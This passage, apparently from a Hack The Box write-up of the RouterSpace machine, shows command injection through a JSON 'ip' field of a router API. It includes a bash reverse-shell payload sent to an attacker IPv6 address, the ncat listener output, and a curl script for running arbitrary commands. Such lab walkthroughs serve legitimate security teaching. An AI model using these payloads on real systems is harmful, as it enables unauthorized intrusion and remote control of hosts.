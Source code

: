 

    {"ip": "$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')"}



I'll use `ncat` to listen on IPv6 using the `-6` flag:



    oxdf@hacky$ ncat -6lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Connection from dead:beef::250:56ff:feb9:c742.
    Ncat: Connection from dead:beef::250:56ff:feb9:c742:41884.
    bash: cannot set terminal process group (913): Inappropriate ioctl for device
    bash: no job control in this shell
    paul@routerspace:/opt/www/public/routerspace$



### Enumerate Host

#### Generate Bash Script

Proceeding without the unintended reverse shell, I'll take this POST
request and generate a `curl` command I can use to make enumeration
easier. I like to then put it into a short `bash` script so I can just
up arrow, and change the command, and re-run. The script looks like:



    #!/bin/bash

    curl -s -x http://127.0.0.1:8080 \
            -H 'user-agent: RouterSpaceAgent' \
            -H 'Content-Type: application/json' \
            -d '{"ip":"$('"$1"')"}' \
            http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess \
            | jq -r .



There's two tricks in there. First, in order to get `$1` to expand to
the passed in argument, I'll need to close the single quote string, put
it in double quotes, and then start the single quote string again
(`bash` is a headache like that).

I'm also using `jq` with `-r` to print the raw string, which removes the
`""` around the result and the trailing `\n`. `jq` is made for JSON, but
technically a string is valid JSON, so it works. It doesn't help fix the
fact that the server seems to strip out new lines in the middle of
results, so that's still a mess.

The script runs as hoped:



    oxdf@hacky$ ./rce.sh 'id'
    uid=1001(paul) gid=1001(paul) groups=1001(paul)
